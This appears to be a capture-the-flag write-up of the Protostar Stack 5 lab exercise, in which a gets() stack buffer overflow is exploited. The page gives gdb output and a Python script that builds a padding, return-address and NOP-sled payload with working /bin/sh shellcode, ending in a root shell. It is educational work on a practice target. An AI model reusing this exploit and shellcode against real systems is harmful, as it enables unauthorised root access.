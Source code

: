 # PROTOSTAR : STACK 5
[Protostar:Stack5](https://exploit.education/protostar/stack-five/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

The program takes command line input and there is a **buffer** variable which we can overflow since it takes input in vulnerable **gets()** function. But after overflowing the **buffer** where would we go? unlike the previous challenge there is **no win() function** so we need to return to a **stack address** and place our **shellcode** to get **ROOT SHELL**.

### **SOURCE CODE**
Below is the disassembly of the **main()** function
```
user@protostar:/opt/protostar/bin$ gdb -q stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave  
0x080483da <main+22>:   ret    
End of assembler dump.
(gdb) 
```

Now lets find the padding required to overwrite the **instrution pointer** and modify the return address of the program.
<br>
**Padding = 76** to overwrite **eip** register.
<br>
If you observe the **esp** register, it denotes the stack address to which the **eip** returns to. Now this address is random so we can take the help of **NOP SLED** and check whether we can run **assembler code**.
```
(gdb) b *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) x/2x $ebp
0x41414141:     Cannot access memory at address 0x41414141
(gdb) x/i $eip
0x80483da <main+22>:    ret    
(gdb) si
Cannot access memory at address 0x41414145
(gdb) i r
eax            0xbffff770       -1073744016
ecx            0xbffff770       -1073744016
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7c0       0xbffff7c0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xb7eadc00       0xb7eadc00 <__libc_start_main+112>
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) 
```
#### **PYTHON SCRIPT**
```py                                   
import struct
padding = "A"*76

ret = struct.pack("I",0xbffff7c0)

nop = "\x90"*100

trap = "\xCC"*4

print(padding + ret + nop + trap)

```

The **\xCC** instruction causes **SIGTRAP** which interupts the execution of the program. It is usually generated when the CPU hits a **breakpoint**. Below is the program output based on the python script.
<br>
Now that we know assembler code is running lets replace with a **shellcode**.
```
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff825 in ?? ()
(gdb) 
```

This is the shellcode for linux /bin/sh shell 22 bytes. **struct pack** is to convert the address to bytes.

```py
import struct
padding = "A"*76

ret = struct.pack("I",0xbffff7c0)

nop = "\x90"*100

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print(padding + ret + nop + shellcode)
```

Just piping the program output to ./stack5 won't work because the shell needs an input so **cat** command is used.
We got the root shell.
```
user@protostar:/tmp$ (python exploit.py; cat) | /opt/protostar/bin/stack5
whoami
root
```
